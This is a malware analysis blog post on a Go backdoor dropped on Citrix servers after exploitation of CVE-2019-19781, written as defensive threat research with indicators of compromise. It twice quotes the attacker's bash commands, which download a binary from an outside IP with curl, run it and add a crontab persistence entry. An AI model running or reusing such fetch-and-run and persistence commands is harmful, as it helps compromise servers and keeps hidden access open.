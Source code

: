 ```yaml
---
layout: post
title:  "Citrix CVE-2019-19781 malware analysis"
date:   2020-01-17 18:08:00 +0100
tag: malware
---
```

## Please read the [disclaimer]({{ site.baseurl }}{% link 9.disclamer.md %})


After the exploit release of CVE-2019-19781, malicious hackers took the opportunity to compromise Citrix instances that did not have the Citrix mitigation implemented. I had the chance to get my hands on some artefacts from a honey pot of a certain threat actor who compromised multiple servers [tweet link](https://twitter.com/michel228/status/1216771783656910849), in this post I will talk in details on how I reversed it using Cutter.


**Note: the secret key used by the malware was altered by m.**

## Post-exploitation:

We notice that the threat actor executed the following bash commands on the compromised system:

{% highlight bash linenos %}
kill -9 netscalerd; 
rm /var/tmp/netscalerd; 
mkdir /tmp/.init; 
curl -k https://95.179.163.186/wp-content/uploads/2018/09/6b37ab9644fff4d954615c93cc890039 -o /tmp/.init/httpd; 
chmod 744 /tmp/.init/httpd; 
echo "* * * * * /var/nstmp/.nscache/httpd" | crontab -; 
/tmp/.init/httpd &;
{% endhighlight %}

0. It kill all running instances of netscalerd
1. It delete the file **/var/tmp/netscalerd**
2. It create the directory **/tmp/.init**
3. It download a binary file from 95.179.163.186 through https request and save it in **/tmp/.init/httpd**
4. It create a cronjob to run **/var/nstmp/.nscache/httpd**, note: this file is created by the downloaded binary.


## Overview of the binary file:

Opening the binary with Cutter reveals that it's a golang compiled binary composed of multiple functions mainly:

0. **main**
1. **install_itself**
2. **remove_bds**
3. **doFile**
4. **install_cron**
5. **xrun**
6. **func1**

## Analyses

### main function:

Run [remove_bds function](#remove_bds-function) as a thread and check if the file **/var/nstmp/.nscache/httpd** , if it does not exist it run [install_itself function](#install_itself-function).

![call_removedbs_install_itself](/assets/img/citrix_malware/call_removedbs_install_itself.png)

if the current process CWD do not contain the string **.nscache/httpd** it start **/var/nstmp/.nscache/httpd** as new process then it exit, else it run 2 other threads: 

0. [xrun function](#xrun-function)
1. [install_cron function](#install_cron-function)

![xrun_thread_start_process](/assets/img/citrix_malware/xrun_thread_start_process.png)


### install_itself function:

It create a directory **/var/nstmp/.nscache**

![install_itself_mkdir](/assets/img/citrix_malware/install_itself_mkdir.png)

check if the file **/var/nstmp/.nscache/httpd** already exist 

![install_itself_check_file_exist](/assets/img/citrix_malware/install_itself_check_file_exist.png)

if not, it copy it self to **/var/nstmp/.nscache/httpd**


### remove_bds function:

It continuously read the directory **/netscaler/portal/scripts**

![remove_dbs_readdir](/assets/img/citrix_malware/remove_dbs_readdir.png)

then loops through all the files contained in that directory, by checking if they were created in the last **14 days**

![remove_bds_check_14_days](/assets/img/citrix_malware/remove_bds_check_14_days.png)

if yes, it proceed to [doFile function](#dofile-function)

![remove_dbs_dofile](/assets/img/citrix_malware/remove_dbs_dofile.png)


### doFile function:

It first check if the file name contains a special 32 bytes long string (secret key)

![dofile_check_name](/assets/img/citrix_malware/dofile_check_name.png)

In the case where it does not, it continue by checking if the content of the file contains the strings **block** or **BLOCK** if it does, the file will be deleted unless it also contains the **secret key**.

![dofile_block_key_string](/assets/img/citrix_malware/dofile_block_key_string.png)



### install_cron function:

Is for some reasons ... empty.

![install_cron](/assets/img/citrix_malware/install_cron.png)


### xrun function:

Start a UDP listener on **\*:18634** then it keep listening on that port, without using the data received.

![xrun_resolveudp](/assets/img/citrix_malware/xrun_resolveudp.png)


### func1 function:

It continuously scan the directory **/netscaler/portal/templates** for **\*.xml** files, then call [doFile function](#dofile-function).
In other words every xml file that contain the string **block** or **BLOCK** will be deleted unless the content/file name contain the **secret key**.

![func1_delete_files_if_block_key](/assets/img/citrix_malware/func1_delete_files_if_block_key.png)


## Conclusion:

From my understanding, the author's goal was to stop other malicious hackers from exploiting and gaining access to the Citrix instance by deleting every uploaded xml file, while retaining access to himself, indeed with that 32 bytes long string which serves as a **secret key**, only the author of this malware can gain access to the compromised server.


## Collected IOCs:


0. **Filenames**:
    * /tmp/.init/httpd
    * /var/nstmp/.nscache/httpd

1. **Directories**
    * /var/nstmp/.nscache
    * /tmp/.init

2. **IPs**
    * 95.179.163.186

3. **UDP listener**
    * \*.18634

4. **Bash history**
    * kill -9 netscalerd; 
    * rm /var/tmp/netscalerd; 
    * mkdir /tmp/.init; 
    * curl -k https://95.179.163.186/wp-content/uploads/2018/09/6b37ab9644fff4d954615c93cc890039 -o /tmp/.init/httpd; 
    * chmod 744 /tmp/.init/httpd; 
    * echo "\* \* \* \* \* /var/nstmp/.nscache/httpd" \| crontab -; 
    * /tmp/.init/httpd &;